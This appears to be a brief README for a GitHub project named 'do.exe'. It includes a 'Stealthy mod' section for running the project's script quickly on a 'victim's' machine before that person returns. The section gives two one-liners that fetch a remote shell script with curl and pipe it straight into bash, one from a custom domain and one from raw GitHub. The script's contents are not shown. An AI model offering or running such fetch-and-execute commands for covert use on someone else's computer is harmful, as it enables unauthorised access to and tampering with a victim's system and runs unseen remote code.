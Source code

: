 # do.exe

## Get started

```
bash features.sh
```

## Stealthy mod

You are in a panic state, your victim can come from one moment to another and you need to execute the script at full speed without go in GitHub:

### With DNS :
```
bash <(curl -L croissant.do.umontp.fr) 
```
### Without DNS :

```
bash <(curl https://raw.githubusercontent.com/LeoDevSecOps/do.exe/main/features.sh)
```
